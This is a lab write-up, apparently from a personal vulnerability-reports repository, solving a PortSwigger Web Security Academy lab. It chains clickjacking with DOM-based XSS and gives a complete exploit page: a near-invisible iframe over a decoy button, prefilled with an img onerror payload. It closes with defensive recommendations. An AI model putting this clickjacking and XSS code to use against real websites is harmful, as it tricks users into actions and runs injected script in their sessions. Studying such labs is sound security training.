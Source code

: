 # Exploiting clickjacking vulnerability to trigger DOM-based XSS

## Lab URL:
https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss

## Summary:
This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the `Click me` button to call the `print()` function. 

## Steps to Reproduce:
1. Host the following code on the exploit server in PortSwigger:
   ```
    <!DOCTYPE html>
    <html lang="en">
    <body>
        <style>
            body {
                margin: 0;
                padding: 0;
                height: 100vh;
            }

            iframe {
                position: relative;
                width: 100%;
                height: 100%;
                z-index: 2;
                opacity: .00001;
            }

            div {
                width: 100%;
                position: absolute;
                height: 700px;
                z-index: 1;
            }

            button {
                top: 810px;
                position: absolute;
                left: 367px;
                padding: 10px 49px;
                border-radius: 127px;
                background-color: rgb(23, 99, 23);
                color: white;
                font-weight: 500;
                font-size: 18px;
                border: none;
            }
        </style>
        <div>
            <button>Click Here!</button>
        </div>
        <iframe
            src="https://0ae8004603e17bed806003c9002f00ba.web-security-academy.net/feedback?name=<img src=x onerror=print()>&email=anonymous@gmail.com&subject=anonymous&message=anonymous"></iframe>
    </body>
    </html>
   ```

2. Send the exploit server link to the victim.
3. When the victim visits the page and clicks the visible button, the hidden `iframe` button underneath is clicked instead, triggering the print() function by the `DOM-XSS` payload.

## Explanation:
- This page is vulnerable to DOM-based XSS attack.

- By inspecting the feedback page source, you will notice that user input from the `name` parameter is inserted using `innerHTML`.

- This allows XSS via payloads like `<img src=x onerror=alert()>`.

- Clickjacking is used as a carrier for another attack such as a `DOM XSS` attack, so we can use `Clickjacking` to perform `DOM-based XSS` attack

- To exploit it via clickjacking:
  	- We craft a decoy webpage with a visible button.
	- Behind it, we overlay a transparent `iframe` containing the vulnerable feedback form which is vulnerable to `DOM-based XSS`.
	- Using URL parameters, we prefill the form fields with malicious data, including an XSS payload in the `Name` field.
	- The iframe is styled with `z-index: 2` and very low `opacity` to remain hidden.
	- Our visible button is placed in the same position as the hidden `Submit feedback` button inside the `iframe`.
	- When the victim clicks the visible button, they are actually clicking the hidden button, submitting the malicious form and triggering the XSS.

## Recommendation:
- Apply `X-Frame-Options` and `Content-Security-Policy` in the request headers to prevent `Clickjacking` attacks
- Avoid using `innerHTML` to insert user controllable data into DOM.

## Screenshot:
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_one.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_two.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_three.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_four.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_five.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_six.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_seven.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_eight.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_nine.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_ten.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_eleven.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/ClickJacking/report_one/report_images/image_twelve.png)
